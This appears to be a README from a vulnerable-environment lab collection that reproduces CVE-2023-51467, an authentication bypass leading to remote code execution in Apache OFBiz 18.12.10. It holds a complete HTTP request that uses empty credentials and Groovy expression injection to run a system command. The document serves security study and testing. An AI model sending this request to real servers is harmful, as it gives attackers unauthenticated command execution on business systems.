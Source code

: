 # Apache OFBiz Authentication Bypass Leads to RCE (CVE-2023-51467)

[中文版本(Chinese version)](README.zh-cn.md)

Apache OFBiz is an open source enterprise resource planning (ERP) system. It provides a suite of enterprise applications that integrate and automate many of the business processes of an enterprise.

This vulnerability occurs as a result of incomplete fixing for [CVE-2023-49070](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2023-49070). In Apache OFBiz version 18.12.10, the developers removed the XMLRPC to fix the previous RCE issue, but the authentication bypass still exists. The researcher from Chaitin Tech found another attack approach to perform the pre-auth RCE using Groovy expression injection.

References:

- <https://github.com/apache/ofbiz-framework/commit/d8b097f6717a4004acf023dfe929e0e41ad63faa>
- <https://xz.aliyun.com/t/13211>
- <https://y4tacker.github.io/2023/12/27/year/2023/12/Apache-OFBiz%E6%9C%AA%E6%8E%88%E6%9D%83%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%B5%85%E6%9E%90-CVE-2023-51467/>

## Vulnerable environment

Executing following command to start an Apache OfBiz 18.12.10 server:

```
docker compose up -d
```

After a short wait, you can see the login page at `https://localhost:8443/accounting`.

## Vulnerability Reproduce

Send following request to execute command `id` by Groovy script:

```
POST /webtools/control/ProgramExport/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 55

groovyProgram=throw+new+Exception('id'.execute().text);
```

![](1.png)
